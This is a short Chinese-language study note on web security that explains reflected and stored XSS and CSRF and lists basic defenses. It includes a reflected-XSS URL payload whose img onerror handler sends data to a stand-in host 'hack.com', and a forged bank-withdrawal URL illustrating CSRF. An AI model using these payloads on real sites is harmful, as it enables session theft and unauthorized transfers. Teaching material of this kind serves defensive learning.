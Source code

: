 ##web安全

### - xss
> `cross site scripting` 跨站脚本攻击 
>  攻击者往 web 页面插入恶意 Script 代码，  
>  当其他用户浏览该网页时，嵌入的脚本代码就会被执行，从而到达恶意攻击用户的目的

1. 反射型 

> https://www.xxx.com/search?item=<img onerror="new Image().src='//hack.com?c=' src='null'>"
> 很多站点都提供搜索服务，如果把搜索的关键词修改为可执行的javascript语句  
> 服务器不加处理将类似的代码现实到页面  
> XSS代码将会被执行

2. 存储型

> 利用站点本身合法的存储结构，通过站点提供的接口提交XSS代码  
> 会被存储到服务器上 当其他用户访问该网页时，服务器把包含XSS的内容反馈给用户  
> 从而攻击用户

##### 服务器都会将javascript当作文本处理， 在服务端整合进HTML文档中
##### 在浏览器解析这些文本的过程 也就是XSS被执行的时候
##### 所有最主要的防范措施就是 对任何用户提交到服务器上的文本都要经过编码或者转译



### - CSRF
> `cross-site request forgery` 跨站请求伪造  
> 通过伪装来自守信用户的请求来利用  
> 攻击者盗用了你的身份，以你的名义发送恶意请求  

> 我们先假设支付宝存在CSRF漏洞，我的支付宝账号是lyq，攻击者的支付宝账号是xxx。  
> 然后我们通过网页请求的方式 http://zhifubao.com/withdraw?account=lyq&amount=10000&for=lyq2  
> 可以把我账号lyq的10000元转到我的另外一个账号lyq2上去。通常情况下，该请求发送到支付宝服务器后,  
> 服务器会先验证该请求是否来自一个合法的session并且该session的用户已经成功登陆。攻击者在支付吧也有账号xxx， 
> 他知道上文中的URL可以进行转账操作，于是他自己可以发送一个请求 http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx 到支付宝后台。  
> 但是这个请求是来自攻击者而不是来自我lyq，所以不能通过安全认证，因此该请求作废。  
> 这时，攻击者xxx想到了用CSRF的方式，他自己做了个黄色网站，在网站中放了如下代码：http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx并且通过黄色链接诱使我来访问他的网站。  
> 当我禁不住诱惑时就会点了进去，上述请求就会从我自己的浏览器发送到支付宝，而且这个请求会附带我的浏览器中的cookie。  
> 大多数情况下，该请求会失败，因为支付宝要求我的认证信息，但是我如果刚访问支付宝不久，还没有关闭支付宝页面，  
> 我的浏览器中的cookie存有我的认证信息，这个请求就会得到响应，从我的账户中转10000元到xxx账户里，而我丝毫不知情，攻击者拿到钱后逍遥法外。所以以后一定要克制住自己，不要随便打开别人的链接。

#### CSRF防御错书主要有验证 HTTP Referer 字段，和 添加 token 验证、验证码 




